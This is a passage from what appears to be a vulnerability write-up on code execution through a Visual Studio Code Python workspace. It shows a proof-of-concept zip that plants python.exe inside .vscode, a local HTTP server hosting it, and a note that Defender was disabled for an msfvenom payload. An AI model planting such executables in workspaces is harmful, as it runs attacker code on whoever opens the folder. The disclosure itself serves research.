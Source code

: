 ```
  adding: pythonpath_poc/.vscode/zzzz/ (stored 0%)
  adding: pythonpath_poc/.vscode/zzzz/python.exe (deflated 40%)
  adding: pythonpath_poc/.vscode/zzzz/python (deflated 17%)

% python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

Opening the Workspace on Windows 7:

![Opening the Workspace on Windows 7](images/2020_visual_studio_code_python_pythonpath_code_execution/open_workspace_win7.gif)

Opening the Workspace on Windows 10 (Windows Defender disabled so the msfvenom payload doesn't get pinched):
